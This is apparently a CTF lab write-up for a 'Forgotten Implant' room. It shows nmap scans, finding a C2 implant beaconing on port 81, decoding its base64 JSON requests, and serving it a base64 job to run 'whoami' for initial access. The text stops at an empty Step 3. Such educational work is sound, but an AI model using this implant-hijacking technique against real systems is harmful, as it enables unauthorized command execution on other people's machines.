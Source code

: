 # Room: Forgotton Implant
> #### Difficulty: Medium
<i>With almost no attack surface, you must use a forgotten C2 implant to get initial access.</i>
### Description

<blockquote>
Welcome to Forgotten Implant! 

This is a pretty straightforward CTF-like room in which you will have to get initial access before elevating your privileges. The initial attack surface is quite limited, and you'll have to find a way of interacting with the system.

If you have no prior knowledge of Command and Control (C2), you might want to look at the Intro to C2 room. While it is not necessary to solve this challenge, it will provide valuable context for your learning experience.

Please allow 3-5 minutes for the VM to boot properly!

Note: While being very linear, this room can be solved in various ways. To get the most out of it, feel free to overengineer your solution to your liking!
</blockquote>

#### What To Do:
Step 1:
###### Do a simple nmap scan(port scan).
```
nmap <target-ip>
```
###### Output:
```
Nmap scan report for 10.10.59.154
Host is up (0.17s latency).
All 1000 scanned ports on 10.10.59.154 are in ignored states.
Not shown: 1000 closed tcp ports (conn-refused)

Nmap done: 1 IP address (1 host up) scanned in 13.38 seconds
```
###### Wow🤨 no ports. Ok now lets do another nmap scan, its probably blocking ping scans.
```
nmap -Pn <target-ip>
```
###### What the... 👀 Still no common open portss?? Lets run wireshark to see the responses from nmap while scanning otherwise we going to waste our time.
```
nmap <target-ip>
```
###### Wireshark Result:
![image](https://github.com/solocyberengineer/MrBud-Home/assets/90530825/05a19a2d-4ea8-421c-832d-99d164fd7b00)
###### Interesting😲... No RST packet on port 81, but there is just a SYN packet, Trying to make a Connection to my machine😕?? Is that how C2C(command and control) is used😕??
###### I actually went to go research abit out C2C or C2 after this to get its functioning. I concluded it was somewhat like a backdoor where I could possibly give it commands or some status it requires/requests.
###### Lets try to run a simple HTTP server on port 81
```
sudo python3 -m http.server 81
```
###### Wow, we see Some Interesting things.
```
10.10.59.154 - - [01/Aug/2023 09:41:03] code 404, message File not found
10.10.59.154 - - [01/Aug/2023 09:41:03] "GET /heartbeat/eyJ0aW1lIjogIjIwMjMtMDgtMDFUMDc6NDE6MDIuMzc3MTE5IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9 HTTP/1.1" 404 -
10.10.59.154 - - [01/Aug/2023 09:41:05] "GET /get-job/ImxhdGVzdCI= HTTP/1.1" 200 -
10.10.59.154 - - [01/Aug/2023 09:41:05] code 404, message File not found
```
###### It looks like its requesting base64 encoded files, Lets try to decode it and make out what it says.
```
echo 'eyJ0aW1lIjogIjIwMjMtMDgtMDFUMDc6NDE6MDIuMzc3MTE5IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9' | base64 -d
```
```
echo 'ImxhdGVzdCI=' | base64 -d 
```
###### Output:
```
{"time": "2023-08-01T07:41:02.377119", "systeminfo": {"os": "Linux", "hostname": "forgottenimplant"}, "latest_job": {"job_id": 0, "cmd": "whoami"}, "success": false}
```
```
"latest"
```
###### Interesting😲...

Step 2:
###### Inorder to get foothold we have to understand abit about Json encoding and abit about HTTP request headers. As in the previous step we can see the C2 is sending a HTTP request to us using the method GET. The below is one of them.
```
GET /get-job/ImxhdGVzdCI= HTTP/1.1
```
###### What you want to do is, create a folder with that base64 names file in it and in the file the contents should be a job since its requesting in folder "/get-job/"
```
mkdir ./get-job/
```
```
touch 'get-job/ImxhdGVzdCI='
```
###### Now what you want to do is, send it a json response giving it a job👷‍♂️.
```
echo '{"job_id": 0, "cmd": "whoami"}' > get-job/ImxhdGVzdCI=
```
###### Now run the server(make sure you not in the get-job folder otherwise your server will give respond with 404).
```
sudo python3 -m http.server 81
```
###### Output:
```
...
10.10.59.154 - - [01/Aug/2023 10:09:05] "GET /job-result/eyJzdWNjZXNzIjogZmFsc2UsICJyZXN1bHQiOiAiRW5jb2RpbmcgZXJyb3IifQ== HTTP/1.1" 404 -
```
###### Decode the base64👷‍♂️.<br>Output:
```
{"success": false, "result": "Encoding error"}
```
###### Wow😲. It will probably make sense to respond back in base64, lets try.
```
echo $(cat 'get-job/ImxhdGVzdCI=' | base64) > 'get-job/ImxhdGVzdCI='
```
###### Restart the server for clarity and wait for it to request.<br>Output:
```
10.10.59.154 - - [01/Aug/2023 10:20:04] "GET /job-result/eyJqb2JfaWQiOiAwLCAiY21kIjogIndob2FtaSIsICJzdWNjZXNzIjogdHJ1ZSwgInJlc3VsdCI6ICJhZGFcbiJ9 HTTP/1.1" 404 -
```
######  Decode Base64.<br>Output:
```
{"job_id": 0, "cmd": "whoami", "success": true, "result": "ada\n"}
```
###### Congratulations🥳, You have Achieved foothold!!!

Step 3:


